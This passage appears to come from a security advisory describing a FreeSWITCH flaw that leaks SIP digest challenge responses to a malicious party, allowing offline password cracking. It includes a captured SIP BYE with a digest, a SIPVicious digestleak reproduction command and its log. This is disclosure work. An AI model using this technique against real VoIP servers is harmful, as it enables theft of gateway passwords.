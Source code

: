 ```
BYE sip:1001@192.168.1.215:35273;transport=udp SIP/2.0
Via: SIP/2.0/UDP 192.168.1.215:5080;rport;branch=z9hG4bKggQjKa4gH4BrS
Max-Forwards: 70
From: <sip:1002@192.168.1.215>;tag=983BacQc9Q9vp
To: <sip:1001@192.168.1.215>;tag=t0D1TEIKQGit7Tf7
Call-ID: Y72a9ZSUQk0zQ23P
CSeq: 34695100 BYE
User-Agent: FreeSWITCH-mod_sofia/1.10.7-dev+git~20210325T155256Z~67cec5c3e8~64bit
Allow: INVITE, ACK, BYE, CANCEL, OPTIONS, MESSAGE, INFO, UPDATE, REGISTER, REFER, NOTIFY
Supported: timer, path, replaces
Proxy-Authorization: Digest username="1000", realm="demo.sipvicious.pro", 
	nonce="4XC2", algorithm=MD5, 
	uri="sip:1001@192.168.1.215:35273;transport=udp", 
	response="10c3a9408b3a97cd6ec8bb3908f30d93"
Reason: Q.850;cause=16;text="NORMAL_CLEARING"
Content-Length: 0

```

The challenge response may then be subjected to a fast offline password bruteforce attack using tools such as hashcat and John the Ripper.

The above example consists of challenging the BYE message coming from FreeSWITCH. We identified the following additional scenarios which allow exploitation:

- FreeSWITCH initiating a call to a malicious party, for example by making use of the `originate` command in `fs_cli`, where the malicious party challenges the incoming INVITE request.
- An authenticated SIP endpoint calling another registered malicious endpoint, where the malicious endpoint challenges the incoming INVITE request.


## Impact

Abuse of this vulnerability allows attackers to potentially recover gateway passwords by performing a fast offline password cracking attack on the challenge response. 

Do note that the attacker does not require special network privileges, such as the ability to sniff the FreeSWITCH's network traffic, to exploit this issue. Instead, what is required for this attack to work is the ability to cause the victim server to send SIP request messages to the malicious party.

Additionally, to exploit this issue, the attacker needs to specify the correct realm which might in some cases be considered secret. However, because many gateways are actually public, this information can easily be retrieved.


## How to reproduce the issue

To reproduce this issue, we made use of SIPVicious PRO's SIP digest leak tool as follows:

```
sipvicious sip crack digestleak udp://172.17.0.2:5060 -u1001:9999999 -e1002 \
	--challenge-config realm:demo.sipvicious.pro
INFO[2021-04-19 23:09:17] started digest leak tool on udp://172.17.0.2:5060
INFO[2021-04-19 23:09:17] call picked up by sip:1002@172.17.0.2
INFO[2021-04-19 23:09:18] received BYE, challenging that with a 407
WARN[2021-04-19 23:09:18] digest leaked: response: 6b4f4d6c4d9a086190bd27e410cd1fe4, \
	realm=demo.sipvicious.pro, nonce=8B05, uri=sip:1001@172.17.0.1:51518;transport=udp, \
	method=BYE, username=1000
INFO[2021-04-19 23:09:18] BYE received, terminating call
WARN[2021-04-19 23:09:21] security issue detected: digest leaked
INFO[2021-04-19 23:09:21] test complete
- target: udp://172.17.0.2:5060
  - status: security issue, digest leaked
    results:
      N/A
```

[1]: https://tomeko.net/other/sipp/sipp_cheatsheet.php?lang=en